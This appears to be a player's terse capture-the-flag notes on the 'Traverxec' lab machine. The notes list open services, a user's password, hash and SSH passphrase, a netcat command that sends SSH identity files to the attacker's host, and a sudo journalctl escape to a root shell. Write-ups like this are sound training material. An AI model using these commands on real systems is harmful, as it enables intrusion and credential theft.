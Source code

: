 # Traverxec

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| traverxec | 10.10.11.165 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE  | VERSION                 |
| ------------ | ---- | ----- | -------- | ----------------------- |
| 10.10.10.165 | 22   | tcp   | OpenSSH  | 7.9p1 Debian 10+deb10u1 |
| 10.10.10.165 | 80   | tcp   | nostromo | 1.9.6                   |


## HEADERS

```
HTTP/1.1 200 OK
Date: Sat, 08 Jul 2023 18:03:10 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```

## DIRECTORIES


## USERS

- david Nowonly4me `$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/` (htpasswd) hunter (ssh passphrase)

## NOTES

- Nostromo metasploit to get shell
- ssh backup file in `/home/david/public_www/protected-file-area`
- `nc -nvlp 2222 > backup-ssh-identity-files.tgz` on host and `cat backup-ssh-identity-files.tgz | nc 10.10.14.9 2222` on target to transfer the files
- crack id_rsa
- `server-stats.sh` contains `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat`
- journalctl gtfobin
- `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` then `!/bin/bash`
